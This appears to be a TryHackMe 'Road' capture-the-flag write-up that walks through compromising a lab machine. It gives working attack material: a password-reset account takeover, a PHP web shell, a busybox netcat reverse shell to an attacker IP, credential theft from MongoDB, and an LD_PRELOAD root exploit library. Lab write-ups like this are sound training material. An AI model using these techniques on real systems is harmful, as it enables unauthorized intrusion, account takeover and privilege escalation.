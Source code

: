 # Road - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Admin Account TakeOver → Upload Web shell & Reverse Shell → Discover `webdeveloper` password → Privilege Escalation via `LD_PRELOAD`
-----------------------------
## Target
- Machine: `road.thm`
- Data: `2025-10-3`
- Environment: TryHackMe / CTF
-----------------------------

## Steps
1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 road.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. Directory discovery:

```bash
gobuster dir -u http://road.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/assets               (Status: 301) [Size: 313]
/index.html           (Status: 200) [Size: 19607]
/phpMyAdmin           (Status: 301) [Size: 317]
/server-status        (Status: 403) [Size: 277]
/v2                   (Status: 301) [Size: 309]
```

`v2` page showing login panel
I Created new account to discovery


In `profile` page:

![showing_the_admin_account](images/Admin_Account.png)

admin account :`admin@sky.thm`



3. Admin Account Takeover :

There was a password reset page at:
`http://road.thm/v2/ResetUser.php`
Using Burp Suite, I intercepted the POST request to the password reset functionality.

I modified the username in the POST request from the current user to `admin@sky.thm`

![ScreenShot-Burp](images/Account_Take.png)

The application allowed the password change for the admin account without proper authorization checks.

successfully logged in as `admin@sky.thm` using the new password set through the manipulated request.

4. Web Shell Upload

if we take a look at the source code of the `porfile.php` page we notice :
```html
<!-- /v2/profileimages/ -->
```
the loction of the directory that hold the profile images:
`http://road.thm/v2/profileimages/`

We can upload php files too. 

Uploaded `cmd.php` web shell containing:
```php
<?php system($_GET['cmd']); ?>
```
This allows remote command execution via the cmd parameter, enabling full system control through the web server.

Tested the web shell by accessing:
`http://road.thm/v2/profileimages/cmd.php?cmd=id`
![Web-Shell](images/cmd-test.png)

The command execution was successful, confirming remote code execution capability through the uploaded web shell.

5. Reverse Shell

Accessed the web shell to execute a reverse shell command:
`http://road.thm/v2/profileimages/cmd.php?cmd=busybox nc [YOUR_IP] 4444 -e bash `


Successful Connection & Shell Stabilization:
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...


python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/var/www/html/v2/profileimages$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
Successfully obtained a reverse shell as `www-data` user, establishing initial access on the target system.

## User flag

Now we escalate to the `webdeveloper` user

Let's see what files belong to this user: 

```bash
www-data@sky:/var/www/html/phpMyAdmin$ find / -type f -user webdeveloper 2>/dev/null 
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```


We can access MongoDB without authentication:
```bash

mongo

>show dbs
> show dbs

admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB


> use backup
ususe backup
switched to db backup

> show tables
shshow tables
collection
user

> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

> exit
```
We found `webdeveloper's` password in the MongoDB database: `[REDACTED]!@#`

Switch to the `webdeveloper` user and retrieve the user flag:

```bash
su webdeveloper
Password: [REDACTED]!@#

webdeveloper@sky:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Root flag

Privilege Escalation

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility
```
The user can run /usr/bin/sky_backup_utility as root with `LD_PRELOAD` environment variable preserved, allowing library injection attacks.

### SUID PATH Environmental Variable :

We create a malicious shared library that contains code executed automatically when loaded via `LD_PRELOAD`:

1. Create Malicious Shared Library :

```bash
cat > shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
```

2. Compile the Library :

```bash
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
```
3. Execute the Exploit :

```bash

sudo LD_PRELOAD=./shell.so /usr/bin/sky_backup_utility

id

# uid=0(root) gid=0(root) groups=0(root)
```
4. root.txt

```bash
cat /root/root.txt 

# [REDACTED]


```
